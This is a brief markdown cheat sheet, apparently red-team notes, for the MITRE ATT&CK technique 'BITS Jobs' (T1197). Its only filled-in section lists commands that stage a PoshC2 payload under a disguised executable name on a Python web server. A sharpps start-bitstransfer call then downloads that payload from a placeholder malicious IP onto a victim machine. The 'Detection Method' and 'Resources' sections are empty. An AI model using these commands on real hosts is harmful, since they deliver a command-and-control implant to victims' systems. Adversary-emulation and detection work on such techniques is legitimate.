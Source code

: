 # [BITS Jobs](https://attack.mitre.org/techniques/T1197/)

## Exploit Syntax: 

1. Run the following commands
    ```sh
    mkdir /home/<user>/Desktop/Lincoler
    cd /home/<user>/Desktop/Lincoler
    cp /var/poshc2/<project name>/payloads/<payload name> Abrodolph.exe
    python3 -m http.server 12137
    ```

2.  In posh, run
    ```sh
    sharpps start-bitstransfer -source http://<malicious ip address>:12137/Abrodolph.exe -destination <victim save location>
    ```

## Detection Method

## Resources    
